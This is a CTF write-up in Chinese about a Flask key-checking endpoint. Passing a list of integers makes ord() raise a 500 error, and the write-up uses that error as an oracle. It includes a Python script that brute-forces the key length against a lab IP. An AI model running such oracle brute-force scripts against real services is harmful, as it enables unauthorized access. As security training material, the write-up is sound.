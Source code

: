 一开始考虑泄漏`enc_key`，但是我并没有能够泄漏这个东西的web水平，或者说这个东西应该是安全的。

考虑仔细分析一下这个代码。

```python
if len(enc_key) != len(key):
      return jsonify(result=False)
```

首先是长度check。`enc_key`应该是一个byte字符串，`key`由我们自己传入，而`python`的`len()`函数不止对字符串有效，我们也可以传入一个list。

```python
for x, y in zip(enc_key, key):
     if x != encoder.do_encrpt(y):
            return jsonify(result=False)
```

check逻辑。这个逻辑很奇怪，并不是把明文整个拿去加密，而是一个一个字符加密并比较，应该是需要`one-by-one`爆破。

这里看了很久也没有想到怎么爆破，甚至写了一个侧信道的脚本（怎么想都不可行）。后来在人肉fuzz的时候发现如果传入的`key`是一个int类型则会返回500内部错误。

这里的漏洞出在这里：

```python
def do_encrpt(self, c):
    return chr(ord(c) ^ next(self.stream))
```

数字没有ord()，在ord的时候会报错，这为我们提供了逐字节爆破的可能。

#### 爆破长度

首先考虑过`len(enc_key) == len(key)`的check。不难发现，若传入一个全数字的list，若长度错误则会返回`{result: False}`，若长度正确则会进入check逻辑，对key[0]也就是第一个数字进行加密，导致异常得到500状态码。

```python
import requests
import string
import json
url = "http://172.16.9.15:6081/api/check/"
header = {
	'Accept': 'application/json, text/javascript, */*; q=0.01',
	'X-Requested-With': 'XMLHttpRequest',
	'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36',
	'Content-Type': 'application/json',
	'Origin': 'http://172.16.9.15:6081',
	'Referer': 'http://172.16.9.15:6081/login',
	'Accept-Encoding': 'gzip, deflate',
	'Accept-Language': 'zh-CN,zh;q=0.9'
}
data = {
	'key': []
}
for i in range(255):
	data['key'].append(1)
	resp = requests.post(url, headers = header, data = json.dumps(data))
	if resp.content[0] != 123:
		print(f"[+]length:", i+1)
		break
```
